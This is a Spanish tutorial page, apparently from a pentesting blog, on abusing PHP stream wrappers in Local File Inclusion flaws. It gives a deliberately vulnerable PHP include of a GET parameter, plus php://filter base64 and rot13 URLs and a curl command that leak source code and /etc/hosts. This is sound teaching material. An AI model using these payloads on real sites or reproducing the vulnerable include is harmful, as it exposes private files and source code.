 ```yaml
---
title: 'Wrappers'
publishedAt: '2024-11-15'
group: 'tecnicas_pentesting'
groupOrder: 1
---
```


# Wrappers

Un wrapper es una especie de envoltura que le dice al Stream (secuencia, petición, entrada/salida de datos) como actuar.
Cuando tenemos una vulnerabilidad de [Local File Inclusion](/local-file-inclusion) podemos ver más cosas que solo cargando el archivo.

Algunos de los wrappers son:

* php://filter
* zip://
* data://
* php://input
* expect://

## php://filter

Con este wrapper podemos codificar el archivo para extraer más información de la que ofrece de primeras como, por ejemplo, comentarios o el código fuente directamente.

Si tenemos el archivo example.php

```php
<?php
    $filename = $_GET['file'];
    include($filename);
?>
```

y el archivo example2.php

```php
<?php
    // Esto es un comentario

    echo "Aqui no hay nada";
?>
```

Cuando llamamos a [http://localhost/example.php?file=example2.php](http://localhost/example.php?file=example2.php), lo único que nos aparece es

![Captura del resultado](/images/wrappers-1.png)

Pero en el momento que utilizamos el wrapper [http://localhost/example.php?file=php://filter/convert.base64-encode/resource=example2.php](http://localhost/example.php?file=php://filter/convert.base64-encode/resource=example2.php), nos devuelve todo el archivo en base64

```
PD9waHAKCi8vIENvbWVudGFyaW8gc2VjcmV0bwoKZWNobyAiQXF1w60gbm8gaGF5IG5hZGEiOwoKPz4K
```

Lo decodificamos

```bash
curl -s "http://localhost/example.php?file=php://filter/convert.base64-encode/resource=example2.php" | base64 -d
```

y nos devuelve el código con los comentarios y todo.

Se pueden concatenar varios wrappers con un&nbsp;&nbsp;<kbd>pipe |</kbd>&nbsp;&nbsp; con lo que (ejemplo tonto) podríamos codificar dos veces en base64 con [http://localhost/example.php?file=php://filter/convert.base64-encode/resource|convert.base64-encode/resource=example2.php](http://localhost/example.php?file=php://filter/convert.base64-encode/resource|convert.base64-encode/resource=example2.php).

Y también podemos aplicar ROT13 para archivos como /etc/hosts con php://filter/read=string.rot13/resource=\<archivo\>